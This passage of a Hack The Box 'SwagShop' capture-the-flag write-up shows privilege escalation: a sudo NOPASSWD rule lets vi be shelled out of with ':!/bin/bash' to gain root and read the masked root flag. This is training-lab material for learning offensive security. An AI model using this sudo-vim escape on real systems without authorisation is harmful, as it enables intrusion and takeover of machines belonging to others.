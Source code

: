 ```bash
a4488772************************
```

## Privilege escalation

```bash
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*
www-data@swagshop:/home/haris$ ls -lsa /usr/bin/vi
0 lrwxrwxrwx 1 root root 20 May  2  2019 /usr/bin/vi -> /etc/alternatives/vi
www-data@swagshop:/home/haris$ ls -lsa /etc/alternatives/vi
0 lrwxrwxrwx 1 root root 18 May  2  2019 /etc/alternatives/vi -> /usr/bin/vim.basic
www-data@swagshop:/home/haris$ ls -lsa /usr/bin/vim.basic
2384 -rwxr-xr-x 1 root root 2437320 Nov 24  2016 /usr/bin/vim.basic
```

`www-data` is allowed to run `/usr/bin/vi /var/www/html/*` as root without supplying a password. We can also see that `/usr/bin/vi` is actually `/usr/bin/vim.basic`. We also know that it's possible to break out of `vim` to get a shell as the user running `vim` ([GTFOBins](https://gtfobins.github.io/gtfobins/vim/)).

```bash
www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/*
...
:!/bin/bash
...
root@swagshop:/home/haris# id
uid=0(root) gid=0(root) groups=0(root)
root@swagshop:/home/haris# cat /root/root.txt
c2b087d6************************

   ___ ___
 /| |/|\| |\
/_| ´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
```

## TL;DR

- Vulnerable Magento version
- User can run vi/vim as root
